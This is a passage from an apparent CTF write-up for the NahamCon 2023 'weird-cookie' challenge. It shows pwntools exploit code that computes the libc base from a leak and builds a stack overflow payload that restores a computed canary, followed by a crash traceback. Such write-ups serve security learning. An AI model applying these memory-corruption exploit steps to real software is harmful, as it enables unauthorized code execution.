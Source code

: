 ### Calculate LIBC base

The next step is to calculate the libc base, for this, we have to do the following formula: `libc_base = leak - __libc_start_main offset - 0xE7`

```python
[.. code above..]

libc_base = leak - libc.symbols.__libc_start_main - 0xE7
info("LIBC base :: " + hex(libc_base))

p.recvuntil(b"Are you sure you overflowed it right? Try again.")
```

Once calculated, we prepare to send the next input, for which we wait one more time until we are asked to do so.

### Set the canary back

If we remember from the planning, what we have to do is to put `40 bytes` of junk, the `canary`, `8 bytes` of junk and `8 bytes` with the new address that will overwrite rip.

```python
[.. code above..]

payload = b"A" * 40
payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))
payload += b"A" * 8
payload += b"B" * 8       # this will take control of rip

p.sendline(payload)

print(p.recv())
print(p.recv())
```

We calculate the canary as the program does and put it in the correct format. For the moment I have changed by `B's` the part that overwrites `rip`, since we still have to see what we do in this part.
If we run it again, we should see something like the following:

```bash
$ python exploit.py
[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 288253
[*] LIBC base :: 0x7f5f23800000
b'\n'
Traceback (most recent call last):
  File "/home/kali/ctf/nahamcon2023/weird-cookie/exploit.py", line 30, in <module>
    print(p.recv())
          ^^^^^^^^
  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
           ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py", line 175, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
                               ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/process.py", line 688, in recv_raw
    raise EOFError
EOFError
[*] Process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched' stopped with exit code -11 (SIGSEGV) (pid 288253)
```